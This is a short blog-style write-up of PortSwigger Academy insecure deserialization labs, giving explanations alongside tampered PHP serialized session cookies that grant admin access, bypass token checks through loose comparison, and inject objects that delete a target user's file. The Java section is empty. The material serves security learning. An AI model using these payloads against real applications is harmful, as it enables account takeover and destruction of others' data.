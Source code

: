 ```yaml
---
title: PortSwigger - Insecure Deserialization Labs
date: '2024-05-10'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


## Insecure Deserialization
 Serialization is a process of converting data into a stream of bytes that is easier to store. To identify insecure deserialization, check all the data passing into an application. Each language has its own way of serializing an object.

These are some short notes I made while solving PortSwigger Academy Insecure Deserialization labs.
##### Manipulating Serialized objects

 -   This is an example of how we can manipulate the attributes within objects to exploit this issue

```php
// A base64 encoded session cookie
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

// when we decode the cookie we find serialized data, which looks like a php serialized object,
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}

// We can change the attribute b:0 to 1 and access admin panel

```


##### Modifying object attributes
- In `php` a string can be equal to integer for example `5 =='5'` will return `true`
- In php `0=='any string'` is also `true`

```php
// We were given a session token which looked like this when decoded :

O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"u6ikmj5wteujgew16r49scunlmahe9fn";}

// we changed the access_token value to 0 for the above mentioned string comparison
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}

// As username was changed to admin , we were able to login to the admin account
```


##### Using application functionality to exploit insecure deserialiaztion

```php
// in the /delete-account endpoint a serialized cookie was decoded to following
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"unj1mi9zgc9vpf1t7f8ajelk645tg8hp";s:11:"avatar_link";s:19:"users/wiener/avatar";}

// we changed the path and were able to delete file from another account
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"unj1mi9zgc9vpf1t7f8ajelk645tg8hp";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}


```


##### Injecting Arbitrary Objects
- In `php` whenever object of a class is created , a magic method `_construct()` is automatically invoked
- If magic methods are handling attackers controllable data ,they can become dangerous 

```php
// In this example we are given a serialized session cookie.
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJicnIxcHgybDMxMzF6NHFhczQwYWpob3IwYno4bXQ1YyI7fQ%3d%3d

// decoding the cookie we find deserialized objects
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"brr1px2l3131z4qas40ajhor0bz8mt5c";}

// the page accesses /lib directory with the following endpoint https://0a15009004ab348d81c93e0900060088.web-security-academy.net/libs/CustomTemplate.php

// To access the file we add ~ in the end making it CustomTemplate.php~

// We can change cookie to 
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`
// The above results in _destruct method being called to delete morale.txt
```


##### Exploting Java Deserialization with Apache Commons

```php
// in this lab we are presented with apache commons collection whihc is known to be vulnerable to insecure deserialization

```
